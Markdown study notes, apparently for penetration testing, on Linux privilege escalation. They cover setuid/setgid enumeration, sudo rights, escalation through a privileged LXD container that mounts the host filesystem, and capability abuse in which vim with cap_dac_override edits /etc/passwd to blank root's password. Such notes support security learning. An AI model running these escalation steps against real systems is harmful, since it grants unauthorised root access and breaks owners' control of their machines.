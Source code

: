 -----
# Special Permissions
-----
- Set User ID upon Execution (setuid) can allow a user to execute a program with the permission of another user.
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
- Set Group ID (setgid) is another special permission that allows us to run binaries as if we were part of the group that created them. Same manner of escalation as setuid
```bash
find / -uid 0 -perm -6000 -type f 2>/dev/null
OR
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

-----
# SUDO RIGHT ABUSE
-----
- check `sudo -l` to see what command users can sudo execute without password.

-----
# PRIVILEGED GROUPS
-----
### LXC / LXD
- LXD = Ubuntu's container manager.
- Upon installation, all users are added to the LXD group.
- Users in this group can escalate privileges by creating an LXD container, making it privileged and accessing the host file system at `/mnt/root`
- Confirm membership: `id`
- Unzip Alpine image: `unzip alpine.zip`
- Start the LXD initialization process. Choose default options for each prompts. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information
```bash
lxd init
```
- Import local image
```bash
lxc image import alpione.tar.gz alpine.tar.gz.root --alias alpine
```
- Start a privileged container with the `security.privileged` set to `true`
```bash
lxc init alpine r00t -c security.privileged=true
```
- Mount the host file system
```bash
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
```
- Spawn a shell inside the container instance.
```bash
lxc start r00t
# start a shell 
lxc exec r00t /bin/bash
# To access the contents of the root directory on the host type
cd /mnt/root/root
```
-----
# CAPABILITIES
-----
- Capabilities allow specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted.
- We can use `setcap` command to set capabilities for specific executables.
```bash
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic

# The cap_ne_bind_service capability is set for a binary -> the binary will be able to bind to network port.
```
- `cap_sys_admin` allows an executable to perform actions with administrative privileges

|**Capability**|**Desciption**|
|---|---|
|`cap_sys_admin`|Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.|
|`cap_sys_chroot`|Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.|
|`cap_sys_ptrace`|Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.|
|`cap_sys_nice`|Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.|
|`cap_sys_time`|Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.|
|`cap_sys_resource`|Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.|
|`cap_sys_module`|Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.|
|`cap_net_bind_service`|Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.|

- Some options of `setcap` command

|**Capability Values**|**Desciption**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|

- Several Linux capabilities can be used to escalate a user's privileges to root

|**Capability**|**Desciption**|
|---|---|
|`CAP_SETUID`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`CAP_SETGID`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`CAP_SYS_ADMIN`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|


### Enumerate Capabiliites
```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

### Exploitation
- Exploit capabilities
```bash
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
cap_dac_override: allow bypassing DAC permission and modyfying files regardless of permisions

- "=eip" specifies the capability settings for "cap_dac_override." The "=eip" indicates that the capability is enabled in all three categories: effective, inheritable, and permitted.
    

Overall, the output signifies that the Vim text editor binary at the specified path ("/usr/bin/vim.basic") has the "cap_dac_override" capability with full privileges (effective, inheritable, and permitted). This capability allows Vim to override file permissions and perform actions that would otherwise be restricted based on traditional file permissions.
```

- Use the `vim` binary to edit `/etc/passwd` file
```bash
vim /etc/passwd
Remove the x for root user
# change password to root: 
su
```

